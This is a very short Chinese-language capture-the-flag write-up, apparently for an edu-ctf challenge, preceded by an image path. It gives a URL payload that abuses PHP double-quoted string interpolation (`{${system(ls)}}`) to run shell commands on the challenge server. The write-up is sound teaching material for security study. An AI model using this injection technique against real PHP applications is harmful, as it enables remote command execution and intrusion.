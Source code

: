 # 解法
透過 php 的 [double quote](https://www.php.net/manual/en/language.types.string.php) 解析去執行 system()
`https://edu-ctf.csie.org:10152/?%F0%9F%8D%A3={${system(ls)}}`
